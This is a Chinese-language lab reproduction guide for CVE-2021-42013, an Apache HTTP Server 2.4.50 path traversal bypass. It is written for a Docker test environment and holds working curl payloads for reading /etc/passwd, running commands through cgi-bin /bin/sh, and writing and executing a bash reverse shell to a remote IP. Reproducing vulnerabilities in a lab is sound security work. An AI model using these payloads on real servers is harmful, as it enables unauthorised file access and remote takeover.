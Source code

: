 # Apache HTTP Server 2.4.50 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞[CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 环境搭建

Vulhub执行如下命令编译及运行一个存在漏洞的Apache HTTP Server 2.4.50版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞复现

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但可以使用`.%%32%65`进行绕过，`.%%32%65`是对`%2e`再次URL编码后的结果（注意其中的`/icons/`必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![image-20220221184635747](./images/202202211846028.png)

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184737284](./images/202202211847459.png)

写入反弹shell

```
curl -v --data "echo;echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1'>> /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

执行反弹shell

```
curl -v --data "echo;bash /tmp/shell.sh" 'http://192.168.174.128:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

![image-20220221184841656](./images/202202211848741.png)

